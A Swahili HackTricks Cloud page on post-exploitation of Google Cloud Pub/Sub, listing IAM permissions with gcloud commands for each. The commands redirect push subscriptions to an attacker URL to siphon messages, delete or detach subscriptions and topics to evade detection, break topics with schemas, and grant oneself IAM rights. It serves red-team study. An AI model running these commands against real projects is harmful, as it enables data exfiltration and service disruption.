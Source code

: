 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Jifunze na kufanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na kufanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## Pub/Sub

Kwa maelezo zaidi kuhusu Pub/Sub angalia ukurasa ufuatao:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Chapisha ujumbe katika mada, muhimu kwa **kutuma data zisizotarajiwa** na kuchochea utendaji usiotarajiwa au kutumia udhaifu:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Inafaa kuzuia usajili kupokea ujumbe, labda ili kuepuka kugunduliwa.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Inafaa kuzuia usajili kupokea ujumbe, labda ili kuepuka kugunduliwa.\
Inawezekana kufuta mada hata ikiwa na usajili uliounganishwa nayo.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Tumia ruhusa hii kusasisha mipangilio ya mada ili kuisumbua, kama `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Jipe ruhusa ya kutekeleza shambulio lolote kati ya yale yaliyotangulia.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Pata ujumbe wote kwenye seva ya wavuti:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Unda usajili na uitumie **kuchukua ujumbe**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Futa usajili** inaweza kuwa muhimu kuvuruga mfumo wa usindikaji wa kumbukumbu au kitu kama hicho:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Tumia ruhusa hii kusasisha mipangilio fulani ili ujumbe uhifadhiwe mahali ambapo unaweza kufikia (URL, Big Query table, Bucket) au tu kuuvuruga.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Jipe ruhusa zinazohitajika kufanya shambulio lolote lililotajwa hapo awali.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Shambulia schema kwenye mada ili ujumbe usitimie na hivyo mada ikatizwe.\
Kama hakuna schema yoyote unaweza kuhitaji kuunda moja.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Hii inaweza kuonekana kama kufuta schema utaweza kutuma ujumbe ambao haukidhi schema. Hata hivyo, kwa kuwa schema itafutwa hakuna ujumbe utakaoweza kuingia ndani ya mada. Kwa hivyo hii ni **HAINA MAANA**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Jipatie ruhusa zinazohitajika kufanya mashambulizi yoyote yaliyotajwa hapo awali.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Hii itaunda snapshot ya ujumbe wote ambao haujaACK na kuwarudisha kwenye usajili. Sio muhimu sana kwa mshambulizi lakini hapa iko:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Jifunze na kufanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na kufanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
